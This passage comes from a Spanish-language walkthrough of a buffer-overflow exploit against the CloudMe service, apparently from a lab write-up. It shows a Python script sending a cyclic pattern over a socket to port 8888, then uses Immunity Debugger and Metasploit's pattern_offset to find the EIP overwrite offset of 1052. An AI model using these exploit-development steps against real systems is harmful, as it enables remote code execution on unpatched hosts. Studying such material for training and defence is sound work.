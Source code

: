 ```python
    9Eq0Eq1Eq2Eq3Eq4Eq5Eq6Eq7Eq8Eq9Er0Er1Er2Er3Er4Er5Er6Er7Er8Er9Es0Es1Es2Es3Es4Es5Es6Es7Es8Es9Et0Et1Et2Et3Et4Et5Et6Et7Et8Et9Eu0Eu1Eu2Eu3Eu4Eu5Eu6Eu7Eu8Eu9Ev0Ev1
    Ev2Ev3Ev4Ev5Ev6Ev7Ev8Ev9Ew0Ew1Ew2Ew3Ew4Ew5Ew6Ew7Ew8Ew9Ex0Ex1Ex2Ex3Ex4Ex5Ex6Ex7Ex8Ex9Ey0Ey1Ey2Ey3Ey4Ey5Ey6Ey7Ey8Ey9Ez0Ez1Ez2Ez3Ez4Ez5Ez6Ez7Ez8Ez9Fa0Fa1Fa2Fa3F
    a4Fa5Fa6Fa7Fa8Fa9Fb0Fb1Fb2Fb3Fb4Fb5Fb6Fb7Fb8Fb9Fc0Fc1Fc2Fc3Fc4Fc5Fc6Fc7Fc8Fc9Fd0Fd1Fd2Fd3Fd4Fd5Fd6Fd7Fd8Fd9Fe0Fe1Fe2Fe3Fe4Fe5Fe6Fe7Fe8Fe9Ff0Ff1Ff2Ff3Ff4Ff5Ff
    6Ff7Ff8Ff9Fg0Fg1Fg2Fg3Fg4Fg5Fg6Fg7Fg8Fg9Fh0Fh1Fh2Fh3Fh4Fh5Fh6Fh7Fh8Fh9Fi0Fi1Fi2Fi3Fi4Fi5Fi6Fi7Fi8Fi9Fj0Fj1Fj2Fj3Fj4Fj5Fj6Fj7Fj8Fj9Fk0Fk1Fk2Fk3Fk4Fk5Fk6Fk7Fk8
    Fk9Fl0Fl1Fl2Fl3Fl4Fl5Fl6Fl7Fl8Fl9Fm0Fm1Fm2Fm3Fm4Fm5Fm6Fm7Fm8Fm9Fn0Fn1Fn2Fn3Fn4Fn5Fn6Fn7Fn8Fn9Fo0Fo1Fo2Fo3Fo4Fo5Fo6Fo7Fo8Fo9Fp0Fp1Fp2Fp3Fp4Fp5Fp6Fp7Fp8Fp9Fq0F
    q1Fq2Fq3Fq4Fq5Fq6Fq7Fq8Fq9Fr0Fr1Fr2Fr3Fr4Fr5Fr6Fr7Fr8Fr9Fs0Fs1Fs2Fs3Fs4Fs5Fs6Fs7Fs8Fs9Ft0Ft1Ft2Ft3Ft4Ft5Ft6Ft7Ft8Ft9Fu0Fu1Fu2Fu3Fu4Fu5Fu6Fu7Fu8Fu9Fv0Fv1Fv2Fv
    3Fv4Fv5Fv6Fv7Fv8Fv9Fw0Fw1Fw2Fw3Fw4Fw5Fw6Fw7Fw8Fw9Fx0Fx1Fx2Fx3Fx4Fx5Fx6Fx7Fx8Fx9Fy0Fy1Fy2Fy3Fy4Fy5Fy6Fy7Fy8Fy9Fz0Fz1Fz2Fz3Fz4Fz5Fz6Fz7Fz8Fz9Ga0Ga1Ga2Ga3Ga4Ga5
    Ga6Ga7Ga8Ga9Gb0Gb1Gb2Gb3Gb4Gb5Gb6Gb7Gb8Gb9Gc0Gc1Gc2Gc3Gc4Gc5Gc6Gc7Gc8Gc9Gd0Gd1Gd2Gd3Gd4Gd5Gd6Gd7Gd8Gd9Ge0Ge1Ge2Ge3Ge4Ge5Ge6Ge7Ge8Ge9Gf0Gf1Gf2Gf3Gf4Gf5Gf6Gf7G
    f8Gf9Gg0Gg1Gg2Gg3Gg4Gg5Gg6Gg7Gg8Gg9Gh0Gh1Gh2Gh3Gh4Gh5Gh6Gh7Gh8Gh9Gi0Gi1Gi2Gi3Gi4Gi5Gi6Gi7Gi8Gi9Gj0Gj1Gj2Gj3Gj4Gj5Gj6Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk"

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((remoteAddress, 8888))
    s.send(payload)

if __name__ == "__main__":
    executeExploit()
```

Una vez mas tenemos que lanzar el CloudMe porque previamente a petado. Tambien tenemos nuevamente que attachear al Immunity Debugger el servicio CloudMe.
Lanzamos el script y vemos que el valor del EIP vale

```bash
 316A4230 
```

Con la herramienta

```bash
 pattern_offset 
```

 podemos comprovar cuantas **A** tengo que meter antes de sobre escribir la EIP

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 316A4230

#Output
[*] Exact match at offset 1052
```

Ahora que tenemos el offset, vamos a modificar el script.

#### Etapa 4: Encontrar la direccion donde despues del EIP {-}
